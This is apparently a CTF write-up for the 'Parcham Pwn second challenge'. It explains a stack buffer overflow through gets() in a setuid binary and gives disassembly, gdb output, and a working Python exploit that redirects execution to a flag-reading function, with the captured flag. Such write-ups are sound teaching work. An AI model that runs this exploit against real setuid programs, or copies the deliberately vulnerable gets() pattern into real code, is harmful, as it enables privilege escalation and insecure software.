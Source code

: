 # Parcham Pwn second challenge

After logging into the server we see there are two files inside user1 directory\
Also there is a flag file inside flag user directory but we can't read that because we don't have permissions for that\
If we check the files permissions we can see that the code binary's owner is flag user and its suid bit is enabled\
So if we run it (it's world executable because of permissions) we are actually running it as flag user

```
user1@parcham-os-2:~$ ls -l
total 24
-r-sr-xr-x 1 flag  flag  17024 Feb 10 00:13 code
-r--r--r-- 1 user1 user1   435 Feb 10 00:13 code.c

```

Let's see code.c source code

```
user1@parcham-os-2:~$ cat code.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
 
void notCallMe() {
    char *envp[] = { NULL };
    char *argv[] = {"/bin/cat", "/home/flag/flag.txt", NULL};
    execve("/bin/cat", argv, envp);
}

void callMe() {
    char buffer[64];
    printf("%p\n", *notCallMe);
    fflush(stdout);
    gets(buffer);
}
 
int main(int argc, char** argv) {
    callMe();
 
    printf("Exiting...\n");
    exit(0);
}

```


There are two functions\
callMe which declares a buffter and write our input inside it\
notCallMe which reads content of flag file (it's possible because of suid bit enabled and we run it on behalf of flag user)\
But the problem is that notCallMe function is not called inside the compiled binary

If we take a look at callMe function we see there is a simple buffer overflow vulnerability because of using "gets" function\
So if overflow the buffer variable with our input and overwrite the return address of the stack of callMe function, we can change the flow of the program to point to notCallMe function and get the flag



We download the files so we can use debugger 
```
$ scp -P 8025 user1@86.104.33.87:/home/user1/code* .
user1@86.104.33.87's password: 
code                                                                          100%   17KB 377.6KB/s   00:00    
code.c                                                                        100%  435    64.7KB/s   00:00    

```

If we disassmble the file we see it's a 64 bit linux binary
So for addressing, soring and using variables we need our variable to be mutiple of word size (8 bytes or 64 bits)

```
$ objdump -D code | less

0000000000001235 <callMe>:
    1235:       f3 0f 1e fa             endbr64 
    1239:       55                      push   %rbp
    123a:       48 89 e5                mov    %rsp,%rbp
    123d:       48 83 ec 40             sub    $0x40,%rsp
    1241:       48 8d 35 a1 ff ff ff    lea    -0x5f(%rip),%rsi        # 11e9 <notCallMe>
    1248:       48 8d 3d d2 0d 00 00    lea    0xdd2(%rip),%rdi        # 2021 <_IO_stdin_used+0x21>
    124f:       b8 00 00 00 00          mov    $0x0,%eax
    1254:       e8 57 fe ff ff          callq  10b0 <printf@plt>
    1259:       48 8b 05 b0 2d 00 00    mov    0x2db0(%rip),%rax        # 4010 <stdout@@GLIBC_2.2.5>
    1260:       48 89 c7                mov    %rax,%rdi
    1263:       e8 78 fe ff ff          callq  10e0 <fflush@plt>
    1268:       48 8d 45 c0             lea    -0x40(%rbp),%rax
    126c:       48 89 c7                mov    %rax,%rdi
    126f:       b8 00 00 00 00          mov    $0x0,%eax
    1274:       e8 57 fe ff ff          callq  10d0 <gets@plt>
    1279:       90                      nop
    127a:       c9                      leaveq 
    127b:       c3                      retq   

```

So our stack will looks like this
```
bottom of                                             top of
memory                                                memory
              buffer       SFP     RET  
<------   [ 64 * bytes ][8 bytes][    ]
	   
top of                                              bottom of
stack                                                 stack
```


1) First The return address (RET) is pushed into stack
2) Second the Base pointer or (Stack Frame Pointer SPF) is pushed into stack and because our word size is 8 bytes it will took 8 bytes in the stack
3) Third the stack pointer (%rsp) is subtracted by 0x40 (64 in decimal) which is the size of our buffer

So after calling the stack we are 72 bytes away from return address\
If we start fuzzing the binary with input size of 72 bytes we will get segmentation fault because of smashing the stack

```
python3 -c "print('A'*72)" > payload
$ gdb code

gdb-peda$ r < payload 
Starting program: /home/kourosh/CTF/parcham/Pwn/SecondChallenge/code < payload
0x55b5f75481e9

Program received signal SIGBUS, Bus error.
[----------------------------------registers-----------------------------------]
RAX: 0x7fff32f83970 --> 0x41414141414141b1 
RBX: 0x55b5f75482b0 (<__libc_csu_init>: endbr64)
RCX: 0x7f455f991980 --> 0xfbad2088 
RDX: 0x0 
RSI: 0x55b5f84e46b1 --> 0x41414141414141c1 
RDI: 0x7f455f9944d0 --> 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fff32f839c0 --> 0x7fff32f83ac8 --> 0x7fff32f84de9 ("/home/kourosh/CTF/parcham/Pwn/SecondChallenge/code")
RIP: 0x55b5f7548204 (<notCallMe+27>:    mov    QWORD PTR [rbp-0x20],rax)
R8 : 0x7fff32f83970 --> 0x41414141414141b1 
R9 : 0x0 
R10: 0x55b5f7549023 --> 0x6e6974697845000a ('\n')
R11: 0x246 
R12: 0x55b5f7548100 (<_start>:  endbr64)
R13: 0x7fff32f83ac0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10a86 (carry PARITY adjust zero SIGN trap INTERRUPT direction OVERFLOW)

gdb-peda$ info frame
Stack level 0, frame at 0x4141414141414151:
 rip = 0x55b5f7548204 in notCallMe; saved rip = <not saved>
 Outermost frame: Cannot access memory at address 0x4141414141414149
 Arglist at 0x7fff32f839b8, args: 
 Locals at 0x7fff32f839b8, Previous frame's sp is 0x4141414141414151
Cannot access memory at address 0x4141414141414141

```

we see that the return address is changed to 0x4141414141414141 which is the 'A' characters we entered and they overflowed the buffer and changed the return address\
So we should change the address of return address to point to the notCallMe function\
The address of function is printed before doing anything but it's not constant\
If it was constant we could craft our payload with this command and execute the program with it

```
$ python3 -c "print('A'*72+<inverse hexadecimal address>)" | ./code
```


For example if our address is like this **0xdeadbeef**\
We should write the payload like this
```
python3 -c "print('A'*72+'\xef\xbe\xad\xde')" | ./code
```
We inverted the address because we are using stack


We have a problem here, our address is not constant so we can't craft our payload before running the program\
We should craft the payload in runtime after printing the notCallMe funcion address

One of the ways is using pwntools in python but we don't have pwntools installed on the remote server so this on fails\
Second way is to use pwntools through ssh on the remote server but pwntools is looking for python binary which does not exist on the server and there is only python3 so this one failed too\
The thrid way which I used was to study pwntools to understand what exactly is being done and reimplement it in python

I used python subprocess

1) we execute the binary with subprocess
2) Grab the notCallMe address after printing
3) revert the address in format which we can use in our payload
4) craft the main payload and write it in stdin of the program

```
import subprocess
PIPE = subprocess.PIPE

def exploit():

    proc = subprocess.Popen(['/home/user1/code'],stdout=PIPE, stdin=PIPE, stderr=PIPE)
    
    line = proc.stdout.readline()
        
    print(line.rstrip())
    address = line.rstrip().decode()
    address_size = len(address)

    payload = b'A' * 72
    new_address = b''

    for i in range(address_size, 2, -2):
        new_address += bytes.fromhex(address[i-2:i])
    payload += new_address

    print(payload)

    stdout_data = proc.communicate(input=payload)[0]
    print(stdout_data)

exploit()

```

After executing the above exploit the return address is changed and notCallMe function is called and we got the flag
```
user1@parcham-os-2:/dev/shm$ python3 ./.e.py
b'0x55aa556ba1e9'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe9\xa1kU\xaaU'
b'parcham{5654794b7e0e5b4a75e07fa7b515b295}\n'
```

First line is the address printed by the program (b'0x55aa556ba1e9')\
Second line is tha payload (b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe9\xa1kU\xaaU')\
Third line is the flag **(b'parcham{5654794b7e0e5b4a75e07fa7b515b295}\n')**

Finish
By KooroshRZ.
